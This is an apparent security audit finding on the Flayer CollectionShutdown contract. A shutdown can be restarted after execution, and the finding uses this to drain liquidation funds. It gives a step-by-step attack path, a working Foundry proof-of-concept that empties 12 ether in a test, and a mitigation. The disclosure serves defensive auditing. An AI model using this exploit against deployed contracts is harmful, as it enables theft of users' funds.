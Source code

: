 Warm Daisy Tiger

High

# Liquidation shares will be drained by re-starting a shutdown

### Summary

Incorrect check in function `CollectionShutdown#start()` will cause an attacker to re-start a shutdown for an executed shutdown to drain ether from the contract

### Root Cause

- The function `CollectionShutdown#start()` checks if a shutdown is [already started by checking `shutdownVotes != 0`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L141). 
- Meanwhile, the function `CollectionShutdown#reclaimVote()` allows users to [reclaim votes even if shutdown is already executed](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L360), because [`canExecute` is set to `false` in the end of function `CollectionShutdown#execute()`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L273)
- By the above points, an attacker can reclaim all votes from an executed shutdown (if he has enough control) and then re-create collection token and re-create shutdown with a very low quorum. After that, the attacker can claim a large amount of fund by increasing his new collection token

### Internal pre-conditions

1. Attacker calls `Locker#createCollection()`
2. Attacker calls `CollectionShutdown#start()`
3. Shutdown vote quorum passes
4. Owner calls `execute()` for the collection attacker created
5. There are liquidation shares from other shutdowns different from the one attacker created

### External pre-conditions

1. The attacker collection's NFTs listed on Sudoswap are liquidated

### Attack Path

1. Attacker calls `Locker#createCollection(...<collection A>...)`
2. Attacker calls `CollectionShutdown#start(<collection A>)`
3. Owner calls `CollectionShutdown#execute(...<collection A>...)` for the collection attacker created
4. Attacker calls `CollectionShutdown#reclaimVote()`
5. Attacker calls `Locker#createCollection(...<collection A>...)` again
6. Attacker calls `CollectionShutdown#start(<collection A>)` again => New quorum is set
7. Attacker calls `Locker#deposit(...<collection A>...)` to increase his CT balance
8. Attacker liquidates NFTs listed on Sudoswap, which done in step 3
9. Attacker calls `CollectionShutdown#voteAndClaim(<collection A>)`

### Impact

- Attacker can steal all liquidation fund in the contract
- Fund stolen by attacker will be under his [controlled values `params.availableClaim`, `userVotes`, and `params.quorumVotes`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L343)

### PoC

Add the test below to test file `CollectionShutdown.t.sol`
```solidity
    function test_drain_liquidation_share() public { 
        // assume (this) is attacker

        // assume attacker has NFT and minted collection token
        vm.startPrank(address(locker));
        collectionToken.mint(address(this), 2 ether);
        vm.stopPrank();


        // start shutdown first time
        collectionToken.approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.start(address(erc721b));

        assertCanExecute(address(erc721b), true); // executable

        // Mint NFTs into our collection {Locker} and process the execution
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);

        // Owner execute shutdown
        collectionShutdown.execute(address(erc721b), tokenIds);

        // attacker reclaim vote
        collectionShutdown.reclaimVote(address(erc721b));

        // assume that attacker has NFTs
        erc721b.mint(address(this), 123);

        // attacker re-creates collection
        address ct = locker.createCollection(address(erc721b), "A", "A", 0);
        
        // deposit NFT to receive Collection token
        erc721b.setApprovalForAll(address(locker), true);
        locker.deposit(address(erc721b), _tokenIdToArray(123));


        // attacker re-starts a new shutdown
        ICollectionToken(ct).approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.start(address(erc721b));

        // assume that attacker has other NFTs
        uint[] memory ids = new uint[](6);
        for(uint i = 200; i < 206; ++i){
          erc721b.mint(address(this), i);
          ids[i - 200] = i;
        }
        
        // continue depositing to receive more Collection token
        locker.deposit(address(erc721b), ids);

        // NFTs liquidated
        _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 2 ether); // availableClaim = 2 ether

        // assume that there are other liquidation shares from other collection shutdowns,
        // which is still held by the contract
        address(collectionShutdown).call{value: 10 ether}('');


        // call voteAndClaim to drain
        uint balanceBefore = address(collectionShutdown).balance;
        collectionShutdown.voteAndClaim(address(erc721b)); // balance = 6 * quorumVotes ====> steal 12 ether
        uint balanceAfter = address(collectionShutdown).balance;        

        console.log("CollectionShutdown balance before %s", balanceBefore);
        console.log("CollectionShutdown balance after %s", balanceAfter);
    }
```

Run the test and console shows
```bash
Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[PASS] test_drain_liquidation_share() (gas: 2519196)
Logs:
  CollectionShutdown balance before 12000000000000000000
  CollectionShutdown balance after 0
```

Note that values are set simple to demonstrate the attack

### Mitigation

- Add check for `require(param.sweeperPool == address(0))` in function `start()`